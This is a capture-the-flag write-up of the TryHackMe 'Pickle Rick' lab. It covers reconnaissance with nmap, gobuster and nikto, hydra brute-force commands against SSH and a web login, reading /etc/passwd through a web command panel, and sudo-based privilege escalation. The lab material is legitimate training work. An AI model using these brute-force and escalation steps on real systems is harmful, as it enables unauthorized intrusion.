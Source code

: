 ```yaml
---
title: "THM:picklerick"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/picklerick"
category: ["CTF"]
tags: [ctf,nmap,gobuster,dirbuster,nikto,hydra,robots.txt,sudo]
breadcrumbs:
  - text: Home
    url: /
  - text: Writeups
    url: /writeups/
  - text: picklerick
---
```

Pickle Rick

URL: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick) [Easy]


<hr>

## Reconnaissance

Description of the room:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -Pn xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

But then ultimately ran again using the `common.txt` dirb wordlist:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/robots.txt           (Status: 200) [Size: 17] 
```

*Also see: [gobuster.log](gobuster.log) and [gobuster_common.log](gobuster_common.log)*

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Found the following:

```python
+ /login.php: Admin login page/section found.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Unsuccessfully, I did try using the username found in the HTML source of the main `index.html` page with hydra to brute force SSH and the login page, but those didn't work. Those commands were:

#### SSH

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    ssh://xxx.xxx.xxx.xxx
```

*See: [hydra.ssh.log](hydra.ssh.log)*

#### HTTP

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    xxx.xxx.xxx.xxx http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

*See: [hydra.web.log](hydra.web.log)*

---

Next, using the username found in the HTML source of the main `index.html` page, and using the potential password we found in `/robots.txt`, we try those credentials from the `/login.php` page, and find that we can log in and use a "Command Panel" which appears to let us run arbitrary commands, and see the results.

We can run `ls -la` to find:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The contents of `Sup3rS3cretPickl3Ingred.txt` are the answer to the "first ingredient" needed for this room.

---

If we run `less /etc/passwd` we can see that there is a user account called `ubuntu`. Or, we can run `ls -la /home/` to see the users who have a home directory. With that, we can see a directory listing of that users' home directory with `ls -ls /home/rick` and get:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The contents of `second ingredients` are the answer to the "second ingredient" needed for this room.

### Privilege Escalation

With this access we have, we can also look in the `ubuntu` users home folder with `ls -la /home/ubuntu` and see:

```bash
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

Since we have a `.sudo_as_admin_successful` file, we might assume we have some `sudo` privileges, so we run `sudo -l` to see:

```bash
Matching Defaults entries for www-data on ip-10-10-243-208.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-208.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow. So, the `ubuntu` account has `sudo` privilege and no password prompt. Let's use that to look in the `root` home folder with `sudo ls -la /root` to find:

```bash
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Feb  6 02:07 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

The contents of `3rd.txt` are the answer to the "final ingredient" needed to complete this room.

## Maintaining Access

None needed.

## Clearing Tracks

We never actually "hacked" into this server, so there is nothing to clear.

## Summary

Completed: [2022-02-05 21:56:08]